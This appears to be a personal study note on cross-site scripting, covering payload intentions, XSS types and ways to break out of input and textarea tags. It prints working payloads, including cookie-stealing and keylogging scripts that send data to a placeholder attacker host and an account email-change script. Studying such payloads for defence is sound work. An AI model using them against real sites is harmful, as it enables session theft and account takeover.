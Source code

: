 ```yaml
---
title: Cross-site Scripting
---
```


_Cross-Site Scripting_, is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Cross-site scripting vulnerabilities are extremely common:

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

The XSS [[payload]] is the JavaScript code we wish to be executed on the targets computer.

There are two parts to the payload:

- _The intention_ - it's is what you wish the JavaScript to actually do
- _The modification_ - it's the changes to the code we need to make it execute as every scenario is different

## Examples of XSS intentions

- Proof of Concept - the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website
  - `<script>alert('XSS');</script>`
- Stealing user session from Cookies
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logging
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Targeted at the business logic
  - a lot more specific than the examples above
  - calling a particular network resource or a JS fn, e.g. `user.changeEmail()`
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Types of XSS

- [[cybersecurity/knowledge/pentesting/reflected-xss]]
- [[cybersecurity/knowledge/pentesting/stored-xss]]
- [[cybersecurity/knowledge/pentesting/dom-based-xss]]
- [[cybersecurity/knowledge/pentesting/blind-xss]]

## Escaping HTML

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)

Let's say, we have a form that takes a name and renders it inside the `input` tag:

```html
<div class="text-center">
  <h2>Hello, <input value="Adam" /></h2>
</div>
```

The JavaScript payload can't run it from inside the `input` tag. We need to escape the `input` tag first so the payload can run properly. We can do this with the following payload:

```
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

```html
<div class="text-center">
  <h2>
    Hello, <input value="" />
    <script>
      alert("THM");
    </script>
    ">
  </h2>
</div>
```

In case of `textarea`, escaping looks a bit different. We're closing the `textarea` tag first:

```html
<!-- payload -->
</textarea><script>alert("THM");</script>
```

```html
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert("THM");</script></textarea></h2>
</div>
```

To get around the filters, we can also take advantage of the additional attributes of the tags, such as the `onload` event of an `img` tag. `onload` executes the code of your choosing once the image specified in the `src` attribute has loaded onto the web page:

```
/images/cat.jpg" onload="alert('THM');` 
```
